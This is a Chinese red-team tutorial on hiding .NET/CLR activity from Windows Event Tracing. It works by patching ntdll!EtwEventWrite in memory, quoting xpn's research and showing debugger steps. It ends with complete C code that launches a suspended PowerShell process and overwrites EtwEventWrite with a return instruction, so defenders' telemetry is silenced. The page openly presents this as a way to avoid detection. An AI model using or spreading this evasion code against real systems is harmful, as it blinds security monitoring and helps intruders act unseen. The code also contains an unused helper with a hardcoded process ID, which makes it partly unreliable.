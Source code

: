 # 基于内存补丁ETW的绕过

## 简介

通常在红队行动中，面临的最大挑战并不是诸如杀毒、EDR之类的防护软件，红队行动中工具&代码的杀毒绕过只是事前工作\(基本功\)，所以攻击者使用的工具&代码往往在本地就比较完备的完成了免杀工作，在这样的背景下，如何让工具尽可能少的留下痕迹就成为了红队成员首要解决的问题。

在cobaltstrike中实现了在非托管进程中加载托管代码的功能模块execute-assembly，而这个功能因为操作系统提供的API（ ICLRMetaHost[、](https://www.21ct.cc/)ICLRRuntimeInfo、ICLRRuntimeHost）在实现上并不复杂，但是这并不影响它的实用性。

## 技术原理

对于检测CLR进行的操作\(托管进程\)一种比较好的方法就是通过Windows事件跟踪（ETW\),虽然该功能最早是为了调试和监控性能引入的，但是这并不妨碍它成为监控execute-assembly等功能的行为操作。

如我们正常开启一个powershell\(属于托管进程\)，在进程加载过程中就会产生大量日志记录，我们可以通过processhacker，进行查看。

![](../.gitbook/assets/image%20%28124%29.png)

根据前人的研究结果，我们可以知道ETW是由用户空间ntdll.dll!EtwEventWrite发起的\(这里手动@xpn\)，这样我们对其绕过也能比较方便的实现。

> ### How does the CLR surface events via ETW? <a id="how-does-the-clr-surface-events-via-etw"></a>
>
> Hopefully by this point the goal is obvious, we need to stop ETW from reporting our malicious activity to defenders. To do this we first need to understand just how the CLR exposes its events via ETW.
>
> Let's take a look at `clr.dll` to try and see if we can spot the moment that an event is triggered. Loading the PDB and hunting for the `AssemblyDCStart_V1` symbol using Ghidra, we quickly land on the following method:

> ![](../.gitbook/assets/image%20%28116%29.png)

> Let's see if we can find the exact point that an event is generated reporting the Assembly load which we observed above with our ETW consumer. Dropping into WinDBG and setting a breakpoint on all `ntdll!EtwEventWrite` calls occurring after the `ModuleLoad` method above, we quickly discover the following where we can see our Assembly name of "test" is being sent:

> ![](../.gitbook/assets/image%20%28123%29.png)

> So this tells us 2 things. First, these ETW events are sent from userland, and second that these ETW events are issued from within a process that we control... And as we know, having a malicious process report that it is doing something malicious never ends well.

根据XPN大佬的研究结果，我们尝试patch ntdll!EtwEventWrite来验证结论是否正确，这里使用x64dbg和powershell来验证。

首先使用x64dbg创建一个powershell进程，这时x64dbg会在线程初始化前下一个断点。

定位到ntdll!EtwEventWrite。

![](../.gitbook/assets/image%20%28118%29.png)

一般windows api默认使用stdcall调用约定，即函数外平衡堆栈，以防万一我们确认一下，堆栈的平衡方式会决定我们的内存补丁写法。

![](../.gitbook/assets/image%20%28122%29.png)

这时我们使用一起BypassAmsi的方式在函数开头直接返回。

![](../.gitbook/assets/image%20%28119%29.png)

在processhacker中查看clr日志。

![](../.gitbook/assets/image%20%28120%29.png)

我们发现现在无法读取到任何日志。

## 代码

代码的话拿AMSI的随便改改就行。

由于ntdll在进程加载之初就已经导入，所以这里不需要短暂睡眠，直接挂起创建就行。

```text
#include <Windows.h>
#include <stdio.h>
#include <Tlhelp32.h>

DWORD WINAPI GetProcessIdByName(LPCTSTR lpszProcessName)
{
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hSnapshot == INVALID_HANDLE_VALUE)
	{
		return 0;
	}

	PROCESSENTRY32 pe;
	pe.dwSize = sizeof pe;

	if (Process32First(hSnapshot, &pe))
	{
		do {
			if (lstrcmpi(lpszProcessName, pe.szExeFile) == 0)
			{
				CloseHandle(hSnapshot);
				return pe.th32ProcessID;
			}
		} while (Process32Next(hSnapshot, &pe));
	}

	CloseHandle(hSnapshot);
	return 0;
}

HANDLE WINAPI GetHandleByProcessId(DWORD dwProcessId, LPCTSTR lpszModule)

{

	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, 5424);

	if (hSnapshot != INVALID_HANDLE_VALUE) {
		MODULEENTRY32 pe32;
		pe32.dwSize = sizeof(MODULEENTRY32);
		Module32First(hSnapshot, &pe32);

		do
		{
			if (lstrcmpi(pe32.szModule, lpszModule) == 0)
			{
				CloseHandle(hSnapshot);
				return pe32.hModule;

			}
		} while (Module32Next(hSnapshot, &pe32));
	}
	CloseHandle(hSnapshot);
	return 0;

}

#include <Windows.h>
#include <stdio.h>
#include <Tlhelp32.h>
int main() {
	STARTUPINFOA si = {0};
	PROCESS_INFORMATION pi = { 0 };
	si.cb = sizeof(si);

	CreateProcessA(NULL, (LPSTR)"powershell -NoExit", NULL, NULL, NULL, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

	HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
	LPVOID pEtwEventWrite = GetProcAddress(hNtdll, "EtwEventWrite");

	//Sleep(500);

	DWORD oldProtect;
	char patch = 0xc3;

	VirtualProtectEx(pi.hProcess, (LPVOID)pEtwEventWrite, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
	WriteProcessMemory(pi.hProcess, (LPVOID)pEtwEventWrite, &patch, sizeof(char),NULL);

	VirtualProtectEx(pi.hProcess, (LPVOID)pEtwEventWrite, 1, oldProtect, NULL); 
	ResumeThread(pi.hThread);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	//FreeLibrary(hNtdll);
	return 0;

}
```

![](../.gitbook/assets/image%20%28117%29.png)

## LINKS

{% embed url="https://blog.xpnsec.com/hiding-your-dotnet-etw/" %}



